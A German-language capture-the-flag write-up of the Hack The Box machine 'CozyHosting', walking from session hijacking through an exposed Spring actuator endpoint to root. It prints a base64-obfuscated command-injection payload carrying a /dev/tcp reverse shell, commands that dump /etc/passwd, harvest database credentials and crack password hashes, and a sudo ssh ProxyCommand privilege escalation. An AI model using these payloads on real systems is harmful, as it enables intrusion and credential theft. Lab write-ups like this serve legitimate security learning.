


# CozyHosting

## Overview

> OS : Linux
> Points: 30

CozyHosting ist eine saisonale Maschine, die während der Open Beta Season II präsentiert wurde. Sie wurde am 05. September 2023 offiziell veröffentlicht.


## Reconnaissance

Zunächst führte ich einen nmap-Scan über alle Ports durch. Nachdem ich die offenen Ports identifiziert hatte, folgte ein detaillierter Scan speziell für diese Ports.

```shell
nmap -p- IP_ADRESS
# PORT   STATE SERVICE
# 22/tcp open  ssh
# 80/tcp open  http

sudo nmap -sC -sV -O -p22,80 IP_ADRESS

# PORT   STATE SERVICE VERSION
#22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu  #3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
#| ssh-hostkey: 
# |   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
# |_  256 6f7a6c3fa68de27595d47b71ac4f7e42   (ED25519) 
# 80/tcp open  http    nginx 1.18.0 (Ubuntu)
# |_http-server-header: nginx/1.18.0 (Ubuntu)
# |_http-title: Cozy Hosting - Home
# Warning: OSScan results may be unreliable  because we could not find at least 1 open and 1 closed port
# Aggressive OS guesses: Linux 4.15 - 5.6 (95%),  Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3  - 5.4 (95%), Linux 2.6.32 (95%), Linux 3.1  (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.0 - 5.3 (94%), Linux 5.4 (94%)
# No exact OS matches for host (test conditions non-ideal).
# Network Distance: 2 hops
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Als nächstes passten wir die `/etc/hosts`-Datei an, um den Hostnamen `cozyhosting.htb` mit der entsprechenden IP-Adresse zu verknüpfen. Dies wurde mit folgenden Befehlen durchgeführt:

```shell
sudo su
echo "IP_ADRESS    cozyhosting.htb" >> /etc/hosts
```


Ich führte einen `dirsearch`-Scan durch, um versteckte Pfade auf der Website `http://cozyhosting.htb/` zu identifizieren:

`dirsearch -u http://cozyhosting.htb`

Hier sind die bemerkenswerten Ergebnisse:

- **Status 200 (OK)**
    - `/actuator/sessions`: 48B
    - `/actuator`: 634B
    - `/actuator/env`: 5KB
    - `/actuator/beans`: 124KB
    - `/actuator/mappings`: 10KB
    - `/actuator/health`: 15B
    - `/index`: 12KB
    - `/login`: 4KB
- **Status 401 (Unauthorized)**
    - `/admin`: 97B
- **Status 400 (Bad Request)**
    - Verweise auf den Pfad `/etc/passwd` und andere suspekte Anfragen
- **Status 500 (Internal Server Error)**
    - `/error`: 73B
- **Status 204 (No Content)**
    - `/logout`: 0B

Unter den Einträgen fiel mir ein besonders interessanter Pfad auf: `cozyhosting.htb/actuator/sessions`. Bei näherer Untersuchung dieses Pfads entdeckte ich eine SessionID für den Benutzer `kanderson`.

Um die Bedeutung dieser SessionID weiter zu untersuchen, versuchte ich mich über `cozyhosting.htb/login` mit dem Benutzernamen `kanderson` und dem Passwort `password` anzumelden. Während des Anmeldevorgangs nutzte ich BurpSuite, um den Traffic abzufangen.

Interessanterweise stellte ich fest, dass nach dem Verändern der Session ID im BurpSuite die Authentifizierung erfolgreich war, und ich erhielt Admin-Rechte. Dies deutete auf eine Schwachstelle in der Session-Verwaltung der Website hin, die mir den uneingeschränkten Admin Zugang ermöglichte.






Während meiner Untersuchung stieß ich auf eine Eingabemöglichkeit, die direkte Shell-Ausführung erlaubte. Mein nächster Schritt war also, eine Reverse Shell einzurichten.

## Shell Zugriff

Für geeignete Reverse Shell-Befehle konsultierte ich die Sammlung auf [dieser GitHub-Seite](https://github.com/six2dez/pentest-book/blob/master/exploitation/reverse-shells.md). Der Befehl, den ich auswählte, war:

`sh -i >& /dev/tcp/IP_ADRESS/8888 0>&1`

Allerdings stellte ich beim Verwenden von BurpSuite fest, dass Leerzeichen in der Payload zu Fehlern führten. Um dieses Problem zu umgehen, beschloss ich, die Shell-Befehle mittels Base64 zu obfuskieren:

```shell
echo "`sh -i >& /dev/tcp/IP_ADRESS/8888 0>&1`" | base64 
```

Das Ergebnis packte ich in den folgenden Ausdruck:

```shell
;echo${IFS}COMMAND_BASE64|base64${IFS}-d|bash;
```

Daraus ergab sich die finale Payload:

```PAYLOAD
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjI5Lzg4ODggMD4mMQ"|base64${IFS}-d|bash;
```

Nachdem ich diese Payload abgeschickt hatte, startete ich `nc -lvnp 8888` und freute mich, eine funktionierende Shell in den Händen zu halten.


Nach dem erfolgreichen Erhalt einer Shell, inspizierte ich den aktuellen Arbeitsverzeichnisinhalt und fand die Datei `cloudhosting-0.0.1.jar`:

```shell
$ ls -al
# total 58856
# drwxr-xr-x  2 root root     4096 Aug 14 14:11 .
# drwxr-xr-x 19 root root     4096 Aug 14 14:11 ..
# -rw-r--r--  1 root root 60259688 Aug 11 00:45 cloudhosting-0.0.1.jar
```

Des Weiteren verschaffte ich mir einen Überblick über die Benutzer des Systems:

```shell
app@cozyhosting:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
.
.
.
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```

Hier stach mir vor allem die Datenbank `postgres SQL` und der Benutzer `josh` ins Auge. Diese werden später noch von Bedeutung sein.

Um die `.jar` Datei näher zu analysieren, wollte ich sie auf meinen lokalen Rechner herunterladen. Um dies zu erreichen, startete ich auf dem Ziel Rechner einen einfachen HTTP-Server mit folgendem Befehl:

`python3 -m http.server 8083`

Nachdem ich die Datei `cloudhosting-0.0.1.jar` heruntergeladen hatte, entpackte ich sie, um ihren Inhalt näher zu betrachten. Mein Hauptaugenmerk lag auf sensitiven Informationen, insbesondere Passwörtern. Dazu durchsuchte ich rekursiv alle Dateien im entpackten Verzeichnis nach dem Begriff "Password":

```shell
grep -r "password"
.
.
.
INF/classes/application.properties:spring.datasource.password=Vg&nvzAQ7XxR
```

Weiter schaute ich die Folgende Datei genauer an `INF/classes/application.properties` .
Ich öffnete diese Datei mit `cat`

```shell
cat BOOT-INF/classes/application.properties

# server.address=127.0.0.1
# server.servlet.session.timeout=5m
# management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
# management.endpoint.sessions.enabled = true
# spring.datasource.driver-class-name=org.postgresql.Driver
# spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
# spring.jpa.hibernate.ddl-auto=none
# spring.jpa.database=POSTGRESQL
# spring.datasource.platform=postgres
# spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
# spring.datasource.username=postgres
# spring.datasource.password=Vg&nvzAQ7XxR
```

Die Datei öffnete sich und ich sah eine Menge Konfigurationsdetails. Mein Fokus richtete sich sofort auf die Zeilen, die mit den Datenbankzugangsdaten zu tun hatten:

```shell
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

## Datenbankuntersuchung

Ich öffnete die Postgres Datenbank
```shell
psql -h localhost -U postgres -d postgres
\l
\c cozyhosting
\dt
SELECT * FROM users;
# kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
# admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Nachdem ich die Zugangsdaten für die PostgreSQL-Datenbank entdeckt hatte, war es an der Zeit, mich mit der Datenbank zu verbinden. Ich verwendete das PostgreSQL-Kommandozeilenwerkzeug `psql` und gab die erfassten Anmeldedaten ein:

`psql -h localhost -U postgres -d postgres`

Als ich mit der Datenbank verbunden war, führte ich `/l` aus, um eine Liste aller Datenbanken anzuzeigen. Dort fand ich die "cozyhosting" Datenbank, die mich sehr interessierte.

`\c cozyhosting`

Nach dem Verbinden mit der "cozyhosting"-Datenbank gab ich `\dt` ein, um alle Tabellen in dieser Datenbank anzuzeigen. Eine Tabelle namens "users" zog sofort meine Aufmerksamkeit auf sich. Ich entschied mich, alle Einträge in dieser Tabelle anzuzeigen:

`SELECT * FROM users;`

Und voilà, dort waren sie: die Benutzernamen und Passwort-Hashes der User. Zwei Einträge standen im Vordergrund:

```shell
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Passwordcracking mit John the Ripper

Mit dem bcrypt-Hash in meiner Hand und der Kenntnis, dass bcrypt zwar sicher, aber auch langsam ist, habe ich beschlossen, `john the ripper` mit der berühmten `rockyou.txt` Wortliste zu verwenden, um zu versuchen, das Passwort zu knacken.

Nachdem ich den Hash in eine Datei namens "hash" geschrieben hatte, startete ich `john`:

`john -w rockyou.txt hash`

Zu meiner Überraschung dauerte es nicht allzu lange, und `john` gab das entschlüsselte Passwort zurück: `manchesterunited`. Dieses Passwort hätte der Schlüssel zu vielen Türen sein können.

Da ich bereits einen interessanten Benutzernamen "josh" entdeckt hatte, versuchte ich, mich mit SSH als dieser Benutzer mit dem entschlüsselten Passwort zu verbinden:

`ssh josh@IP_ADRESS`

Nachdem ich das Passwort eingegeben hatte, war ich drin. Mein erstes Ziel war es, die `user.txt` Flagge zu holen:

```shell
cat user.txt
# 32b7??????????????????????????
```

## Privilege Escalation

Die Suche nach Privilegieneskalation begann mit dem Standardbefehl `sudo -l`, um zu überprüfen, welche Befehle der Benutzer `josh` mit sudo ausführen darf, ohne das Root-Passwort zu benötigen. Zu meiner Überraschung wurde angezeigt, dass `josh` den `ssh` Befehl als `root` ohne Passwort ausführen kann.

Dies war interessant, da `ssh` in manchen Umständen missbraucht werden kann, um eine Shell mit höheren Privilegien zu erhalten. Eine kurze Suche auf gtfobins, einer Website, die Techniken zum Missbrauch von Binärdateien für Sicherheitszwecke aufzeigt, bestätigte meinen Verdacht.

Mit dem dort gefundenen Befehl:

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`

konnte ich eine Shell mit Root-Rechten erhalten. Dieser Befehl missbraucht die `ProxyCommand`-Option von `ssh`, um einen Shell-Befehl auszuführen, anstatt eine echte SSH-Verbindung herzustellen.

Sobald ich Root-Zugriff hatte, war es einfach, die Flagge `root.txt` zu lesen:

```shell
cat root.txt
# 484??????????????????????????????
```

